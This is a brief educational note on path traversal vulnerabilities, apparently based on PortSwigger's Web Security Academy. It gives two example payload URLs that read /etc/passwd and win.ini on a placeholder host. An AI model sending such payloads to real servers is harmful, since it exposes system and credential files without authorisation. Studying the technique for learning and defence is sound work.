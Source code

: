 # Path Traversal

## Description

This vulnerability allows an attacker to read arbitrary files on the server hosting the application.

This type of vulnerability can lead to several impacts: 
- Reading confidential data on the system (source code, identification information, personal information)
- Modification of file integrity (example: modify the application code to change its behavior)

## Methods

### Reading arbitrary files via path traversal

Linux : 
```http
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

Windows : 
```http
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```
## Inspired by

- [Portswigger Web Security Academy - Server Side vulnerabilities apprentice](https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice)

## Tools

- [Burp Suite community](https://portswigger.net/burp/communitydownload)